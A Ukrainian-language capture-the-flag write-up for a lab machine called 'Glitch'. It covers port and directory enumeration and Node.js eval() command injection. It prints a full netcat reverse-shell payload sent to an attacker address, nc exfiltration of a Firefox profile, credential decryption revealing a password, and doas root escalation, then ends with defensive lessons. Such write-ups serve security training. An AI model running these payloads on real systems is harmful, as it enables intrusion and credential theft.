# [GLITCH - Challenge showcasing a web app and simple privilege escalation. Can you find the glitch?] 

Складність: Easy

Ціль: 10.112.130.238

1. Розвідка (Reconnaissance & Enumeration)
   
   1.1. Сканування портів (Nmap):
      Для пошуку відкритих портів та активних служб було запущено повне сканування:
   ```bash
   └─$ sudo nmap -sC -sV -p- -vv -oN nmap_result.txt 10.112.130.238
   ```

   

   1.2. Веб-розвідка:
      Запускаємо пошук прихованих директорій та файлів на вебсервері за допомогою gobuster:
   ```bash
   └─$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u http://10.112.130.238/ -k -t 50 -x html,php,txt,jpg 
   ```
      
   

      Досліджуємо вміст знайденої директорії /js/:
   ```bash
   └─$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u http://10.112.130.238/js/ -k -t 50 -x html,php,txt,jpg,js 
   ```
      
   
   

      Перевіряємо структуру директорії /api/:
   ```bash
   └─$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u http://10.112.130.238/api/ -k -t 50 -x html,php,txt,jpg,js 
   ```
      
   

   ```bash
   curl http://10.112.130.238/api/access
   ```
      Повернув `Base64` токен, декодування якого дало рядок `this_is_not_real`. Це виявилося пасткою (Rabbit Hole), що веде на сторінку з білим кроликом:

   
   

      Для обходу обмеження надсилаємо POST-запит на той самий ендпоінт, щоб згенерувати справжній токен для доступу до Dashboard:

   

      Після успішного входу аналізуємо ендпоінт `/api/items`. Оскільки структура параметрів невідома, виконуємо фазинг Query-параметрів за допомогою `ffuf`:
   ```bash
   └─$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/api/objects.txt -u "http://10.112.130.238/api/items?FUZZ=test" -X POST -fc 404,400 
   ```
      
   
   
      Фазинг чітко вказав на вразливий параметр `cmd`, який викликає помилку `500`.

2. Точка входу (Initial Access / Foothold)

   2.1. Експлуатація вразливості:
      Оскільки параметр cmd передається безпосередньо у функцію `eval()` на Node.js, ми маємо змогу виконувати системні команди (RCE) через вбудований модуль `child_process`. 

   
       

   2.2. Отримання реверс-шеллу:
      Відправляємо закодований у формат URL payload для отримання зворотного підключення на наш хост (`192.168.130.250:4545`):
   ```bash
   └─$ curl -X POST -G "http://10.112.130.238/api/items" --data-urlencode "cmd=require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.130.250 4545 >/tmp/f')"
   ```

   

      Слухач Netcat успішно приймає підключення. Стабілізуємо шелл та читаємо перший прапор:

   


3. Підвищення привілеїв (Privilege Escalation)

   3.1. Горизонтальне переміщення (`user` -> `v0id`):
      Під час дослідження домашньої директорії `/home/user` було виявлено приховану папку `.firefox`. Архівуємо її та пересилаємо на атакуючу машину за допомогою `nc`:
   ```bash
   user@ubuntu:~$ tar -cvf firefox.tgz ~/.firefox
   nc -w 3 192.168.130.250 9001 < firefox.tgz
   ```

   

      На локальній машині використовуємо Python-скрипт `firefox_decrypt` для вилучення паролів з отриманого профілю Firefox в офлайн-режимі:

   

      Знайдено пароль користувача `v0id: love_the_void`. Авторизуємось під цим користувачем:

   

   3.2. Вертикальне підвищення (`v0id` -> `Root`):
      Перевіряємо систему на наявність SUID-файлів за допомогою команди:
   ```bash
   find / -type f -perm -04000 -ls 2>/dev/null
   ```

      Одразу звіряємося з вектором експлуатації для цієї утиліти на [GTFOBins(doas)](https://gtfobins.org/gtfobins/doas/).
      Оскільки `doas` зазвичай дозволяє виконувати команди від імені інших користувачів (як і `sudo`), пробуємо запустити інтерактивний шелл `/bin/sh` від імені `root` напряму:
   ```bash
   /usr/local/bin/doas -u root /bin/sh
   ```
   
   

      Команда успішно спрацювала після введення пароля користувача `v0id` (`love_the_void`). Ми миттєво отримали root-доступ та прочитали фінальний прапор:

   

## Висновки (Lessons Learned)

Ця машина є чудовим прикладом того, як одна критична помилка в коді вебдодатка може призвести до повного захоплення сервера (Full System Compromise):
   1. **Небезпека динамічного виконання коду:** Використання функцій типу `eval()` у зв'язці з неперевіреними вхідними даними користувача (`user input`) майже гарантовано призводить до **RCE**. Для усунення таких вразливостей розробникам слід повністю відмовитися від `eval()` на користь безпечних методів обробки даних.
   2. **Зберігання чутливих даних клієнтів:** Браузери часто зберігають паролі у локальних базах даних (як-от профілі Firefox). Якщо зловмисник отримує доступ до файлової системи під звичайним користувачем, він може легко скопіювати ці файли й дешифрувати їх локально в офлайн-режимі. Завжди варто використовувати Майстер-пароль (Master Password) для додаткового захисту локальних сховищ.
   3. **Конфігурація утиліт підвищення привілеїв:** Використання альтернатив `sudo` (на кшталт `doas`) має бути суворо контрольованим. Якщо бінарник має SUID-біт і дозволяє виконувати команди від імені `root` без жорстких обмежень на запуск оболонок, це створює тривіальний вектор для вертикального підвищення привілеїв.
